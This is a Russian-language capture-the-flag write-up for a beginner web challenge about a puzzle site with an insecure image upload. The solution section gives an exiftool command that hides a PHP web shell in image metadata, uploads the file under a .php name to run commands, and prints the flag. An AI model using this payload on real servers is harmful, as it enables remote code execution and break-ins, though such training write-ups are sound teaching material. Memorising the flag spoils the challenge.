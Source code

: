 ## Собери пазл и загрузи секретное изображение!


| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | PuzzleMaster | Web | easy |

  
### Описание


> Автор: [Timur219]
>
Погрузитесь в увлекательный процесс сборки пазла! Выберите картинку, соберите её до последнего элемента и сохраните результат на сервере. Однако будьте внимательны: всё может быть не так просто, как кажется. Возможно, сервер окажется не готов к некоторым… сюрпризам.


### Решение
На сайте реализована функциональность загрузки изображений для сборки пазлов. Пользователи могут загружать свои изображения через форму, и они обрабатываются сервером для создания интерактивного пазла. При анализе функционала загрузки файлов выявлено, что сервер не проводит строгую валидацию загружаемых файлов, что может привести к уязвимости загрузки файлов (File Upload Vulnerability). 

Создим файл PHP/JPG, который по сути является обычным изображением, но содержит полезную нагрузку PHP в своих метаданных.

Это можно сделать с помощью exiftool:
```
exiftool -Comment="<?php system($_GET["cmd"]); ?>" your_image.jpg -o payload_file.png
```
Как только файл будет создан, загрузим его на сервер, изменив filename на payload_file.php:
![alt text](image.png)

Используя загруженный файл, убедимся, что payload успешно выполняется. Это подтверждает получение удалённого доступа к серверу через веб-шелл:
![alt text](image-1.png) 

Обнаруживаем файл flag и просматриваем его содержимое:
![alt text](image-2.png)

### Флаг

```
vka{15p1zzle_master_2024_super_challenge}
```


